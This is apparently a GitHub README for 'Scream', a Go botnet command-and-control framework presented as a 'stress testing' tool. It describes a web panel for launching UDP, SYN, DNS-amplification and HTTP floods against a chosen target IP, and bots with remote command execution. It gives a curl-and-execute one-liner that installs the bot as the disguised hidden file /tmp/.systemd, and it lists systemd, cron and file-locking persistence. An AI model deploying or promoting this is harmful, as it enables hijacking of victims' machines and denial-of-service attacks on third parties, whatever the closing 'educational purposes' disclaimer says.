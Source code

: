 # Scream C2 Framework - README

## Overview
Scream is a lightweight Command and Control (C2) framework with integrated stress testing capabilities. This framework provides a web-based interface for managing a botnet and launching various types of network stress tests.

<table>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/736a91e2-4c10-439e-9bf7-128ec9ee7841" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/122e26d1-1b6c-4065-acb3-7af89746fb6a" width="100%"/></td>
  </tr>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/948fb62d-5861-4963-8c15-ee110c31e21d" width="100%"/></td>
    <td><img src="(https://github.com/user-attachments/assets/da590257-a958-41e0-8773-58fc9ab64728" width="100%"/></td>
  </tr>
</table>

## Features

### Web-based Management Interface
- Real-time bot monitoring  
- Attack control panel  
- User management system  
- Attack history tracking  

### Stress Testing Capabilities
- UDP Flood  
- TCP Flood  
- SYN Flood  
- ACK Flood  
- GRE Flood  
- DNS Amplification  
- HTTP Flood  

### Bot Management
- Automatic bot connection handling  
- Heartbeat monitoring  
- Hardware resource reporting  
- Remote command execution  

### Security Features
- Challenge-response authentication  
- TLS encrypted communications  
- Session management  
- Password complexity enforcement  

---

## Installation

### Prerequisites
- Go 1.18+ installed  
- Basic server with root access  
- Domain name (recommended for SSL)  

### Quick Start

**Clone the repository:**
```bash
git clone https://github.com/yourusername/scream-c2.git
cd scream-c2
```

**Build the server and bot:**
```bash
go build -o server main.go
go build -o bot bot.go
```

**Generate SSL certificates (if needed):**
```bash
./server --gen-cert
```

**Start the server:**
```bash
./server
```

**Deploy the bot to target systems.**

---

## Configuration

### Server Configuration
The server can be configured by modifying the constants in `main.go`:

```go
const (
    USERS_FILE          = "users.json"         // User database file
    BOT_SERVER_IP       = "0.0.0.0"            // Bot connection interface
    BOT_SERVER_PORT     = "7003"               // Bot connection port
    WEB_SERVER_IP       = "0.0.0.0"            // Web interface interface
    WEB_SERVER_PORT     = "443"                // Web interface port
    CERT_FILE           = "server.crt"         // SSL certificate
    KEY_FILE            = "server.key"         // SSL private key
)
```

### Bot Configuration
Modify the C2 address in `bot.go`:

```go
const (
    C2Address = "your.server.ip:7003" // Change to your server's IP/domain
)
```

---

## Usage

### Accessing the Web Interface
Navigate to `https://your-server-ip` in your browser

**Login with the default credentials:**
- **Username:** `root`
- **Password:** *(generated on first run, check console output)*

### Managing Bots
- The dashboard shows all connected bots  
- View bot details by clicking on a bot in the list  
- Monitor bot status (active/inactive) via the status indicator  

### Launching Attacks
- Select an attack method from the dropdown  
- Enter the target IP/hostname  
- Specify the target port  
- Set the duration (in seconds)  
- Click **"Initiate Attack Sequence"**

### User Management
Admin/Owner users can:
- Create new users  
- Delete existing users  
- Modify user access levels  

---

## Security Considerations

⚠️ **Important Security Notes:**
- Change the default root password immediately after first login  
- Use strong, complex passwords for all user accounts  
- Restrict access to the web interface (firewall rules, VPN, etc.)  
- Regularly monitor and audit user activity  
- Keep the server software updated  

---

## Bot Deployment

### Linux Deployment

```bash
# Download and execute
curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
```

### Persistence Methods
The bot includes several persistence mechanisms:
- Systemd service  
- Cron job  
- File locking (prevent deletion)  

---

## Troubleshooting

### Common Issues

#### Bots not connecting:
- Verify the C2 address in the bot binary  
- Check firewall rules on the server  
- Ensure the bot server is running on the correct port  

#### Web interface not loading:
- Verify SSL certificates are properly configured  
- Check if the web server is running  
- Ensure port 443 (or your configured port) is open  

#### Attack not working:
- Verify target IP/port is correct  
- Check if bots are properly connected  
- Ensure the attack method is appropriate for the target  

---

## License
This software is provided for educational and research purposes only. The authors are not responsible for any misuse of this tool.
